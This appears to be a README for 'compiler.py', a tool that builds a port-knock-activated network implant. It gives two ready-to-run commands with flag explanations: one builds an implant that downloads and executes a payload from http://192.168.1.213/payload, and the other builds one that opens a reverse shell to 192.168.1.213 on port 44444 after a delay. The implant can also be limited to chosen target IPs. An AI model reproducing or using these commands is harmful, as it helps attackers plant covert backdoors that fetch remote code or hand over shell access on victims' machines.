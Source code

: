 # Compiler.py

## Quick Commands

### Download & Exec
```
python3 compiler.py -o sniffer -ip 192.168.1.242 -key 20000,30000,40000,50000 -size 4 -act PORT_KNOCK_LIST -atkD http://192.168.1.213/payload --interface wlp41s0 -d
```

-o specifies the output name, -ip specifies the allowable ip list that the implant can run on, -key specifies the ports to listen for, -size is the number of ports in the key, -act specifies the activation method (which should mainly just be PORT_KNOCK_LIST), -atkD specifies the address to download data from, --interface is the interface to listen on, -d is for debugging

### Reverse Shell
```
python3 compiler.py -o sniffer -ip 192.168.1.247 -key 20000,30000,40000,50000 -size 4 -act PORT_KNOCK_LIST -delayT 5 -atkR -revip 192.168.1.213 -revport 44444 -d --interface wlp41s0
```

-o specifies the output name, -ip specifies the allowable ip list that the implant can run on, -key specifies the ports to listen for, -size is the number of ports in the key, -act specifies the activation method (which should mainly just be PORT_KNOCK_LIST), -delayT is the number of seconds it should wait until it tries to connect, -atkR specifies a reverse shell, -revip is the ip to connect to, -revport is the port to connect to, --interface is the interface to listen on, -d is for debugging